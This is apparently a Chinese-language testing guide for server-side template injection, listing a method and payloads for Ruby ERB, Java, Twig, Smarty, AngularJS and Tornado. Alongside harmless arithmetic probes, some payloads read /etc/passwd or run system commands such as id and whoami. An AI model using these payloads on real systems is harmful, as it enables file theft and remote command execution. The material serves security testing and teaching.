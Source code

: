 #### 三、测试方法

> - 确定使用的引擎
> - 查看引擎相关的文档，确定其安全机制以及自带的函数和变量
> - 需找攻击面，尝试攻击

##### 1.测试用例

简单的数学表达式：

```
{% assign openTag = '{{ 7+7 }}' %}
{{ openTag }} => 14
```

字符串表达式：

```
{% assign openTag = '{{ "ajin" }}' %}
{{ openTag }} => ajin
```

- Ruby

```
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

- Java

```
${7*7}
```

- Twig

```
{% assign openTag = '{{7*7}}' %}
{{ openTag }}
```

- Smarty

```
{php}echo `id`;{/php}
```

- AngularJS

```
$eval('1+1')
```

- Tornado

引用模块 

```
{% assign openTag = '{% ' %}
{{ openTag }}import module %}=> {{ openTag }}import os %}{{ os.popen("whoami").read() }}
```
